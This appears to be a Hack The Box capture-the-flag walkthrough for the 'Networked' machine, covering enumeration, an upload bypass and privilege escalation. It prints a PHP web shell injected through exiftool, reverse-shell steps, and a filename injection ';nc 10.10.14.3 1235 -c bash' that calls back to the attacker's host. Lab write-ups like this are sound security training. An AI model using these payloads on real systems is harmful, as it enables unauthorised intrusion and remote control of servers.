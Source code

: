 ```yaml
---
layout: walkthrough
title: Networked
description: HTB walkthrough
logo: /assets/img/walkthroughs/networked_logo.png
show-avatar: false
permalink: /walkthroughs/networked.html
OS: Linux
difficulty: Easy
release: 24 Aug 2019
creator: <a href="https://www.hackthebox.eu/home/users/profile/8292">guly</a>
cleared: 1 Nov 2019
published: 2019 11 01
---
```


<h2 align="center">Enumeration</h2>
Starting with standard nmap scan...

```s
# Nmap 7.80 scan initiated Thu Oct 31 14:15:09 2019 as: nmap -sC -sV -p- -oN nmapscan.txt 10.10.10.146
Nmap scan report for 10.10.10.146
Host is up (0.098s latency).
Not shown: 65532 filtered ports
PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 22:75:d7:a7:4f:81:a7:af:52:66:e5:27:44:b1:01:5b (RSA)
|   256 2d:63:28:fc:a2:99:c7:d4:35:b9:45:9a:4b:38:f9:c8 (ECDSA)
|_  256 73:cd:a0:5b:84:10:7d:a7:1c:7c:61:1d:f5:54:cf:c4 (ED25519)
80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
443/tcp closed https

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Oct 31 14:18:04 2019 -- 1 IP address (1 host up) scanned in 175.03 seconds

```

Seeing port 80, we navigate to the webpage and see nothing of interest, however checking the page source shows us an interesting comment

```html
<html>
<body>
Hello mate, we're building the new FaceMash!</br>
Help by funding us and be the new Tyler&Cameron!</br>
Join us at the pool party this Sat to get a glimpse
<!-- upload and gallery not yet linked -->
</body>
</html>
```

So we know there is more to find. However we should be directory busting anyway, so this doesn't offer much.

Running 

```sh
gobuster dir -w <wordlist> -x .php,.txt -o <outputfile> -u http://10.10.10.146
```

with the appropriate wordlist yielded the following results

```sh
/uploads (Status: 301)
/photos.php (Status: 200)
/index.php (Status: 200)
/upload.php (Status: 200)
/lib.php (Status: 200)
/backup (Status: 301)

```

If we navigate to /backup we see

![backup](/assets/img/walkthroughs/networked_backup_page.png)

Downloading and extracting the tar file we find its the source files for the .php pages we found. 


![Source](/assets/img/walkthroughs/networked_source_files.png)

Analyzing the upload.php and lib.php files we see that there is some extension checking in place, as well as a mimetype check. These are in place to attempt to only allow us to upload an image file. There are two ways I found to bypass this.


<h3 align="center">Initial foothold</h3>
**Method 1:**



We can modify the exif data of an image to give us code execution using **exiftool** as follows

```sh
exiftool -DocumentName="<?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';} __halt_compiler();?>" hilbert.jpg 

```

then we rename the image file to hilbert.php.jpg and upload it and navigate to the image and check if we have code execution

![RCE](/assets/img/walkthroughs/networked_exifdata_torce.png)

Bingo! We can now use wget to download a shell file to the server and then navigate to it to get a reverse shell.

**Method 2:**

This method is much easier. We simply take our favorite php reverse shell (I'm using one from pentestmonkey) and append 'magicbytes' to the start of the file. This makes the mimetype check php is using think it is an image file. 

![magicbytes](/assets/img/walkthroughs/networked_magicbytes.png)

Again we rename the file with the extension .php.jpg and upload it. Then set up a netcat listener on whatever port you edited into the reverse shell, and navigate to the image file

![reverseurl](/assets/img/walkthroughs/networked_reverse_url.png)

```sh
root@kali:~/HTB/Boxes/Networked# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.146] 47636
Linux networked.htb 3.10.0-957.21.3.el7.x86_64 #1 SMP Tue Jun 18 16:35:19 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 21:52:12 up  3:22,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$ whoami
whoami
apache

```



<h3 align="center">Privilage Escalation</h3>
We have a shell but we are only user apache. Looking at the /etc/passwd file we see there is user named "guly". If we look in /home/guly we see two interesting files. 'crontab.guly' and 'check_attack.php'. Looking at the files we see that crontab.guly is set to run check_attack.php every 3 minutes. If we look at check_attack.php

```php
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>

```



We see that it basically looks at all the files in the uploads folder that we previously placed our disguised image file in, and deletes files that don't belong. If we look closely at the code, this line in particular stands out

```php
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
```

The value variable holds the name of a file and we can name it in such a way to execute code!

As user apache we have write access in that directory, so all we need to do is go to the directory and create the appropriate named file.

```sh
sh-4.2$ cd /var/www/html/uploads
sh-4.2$ touch ";nc 10.10.14.3 1235 -c bash"

```

Then we simply have to listen on the appropriate port and wait for the program to run and then...

```sh
root@kali:~/HTB/Boxes/Networked# nc -nlvp 1235
listening on [any] 1235 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.146] 57202
whoami
guly

```

Bingo! We can now cat the user.txt file.

<h3 align="center">On To Root</h3>
Running "sudo -l" we see

```sh
User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh

```

So we can run this changename.sh file as root without a password.

A bit of googling turns up this vulnerability

https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f

which tells us that due to some improper handling anything after an inputted space for the name field when running the script will be executed. So we can simply enter "bash" after the space like so

```sh
[guly@networked sbin]$ sudo ./changename.sh
interface NAME:
hilbert bash
interface PROXY_METHOD:
blah
interface BROWSER_ONLY:
blah
interface BOOTPROTO:
blah 
[root@networked network-scripts]# whoami
root

```

We now have access to the root flag.
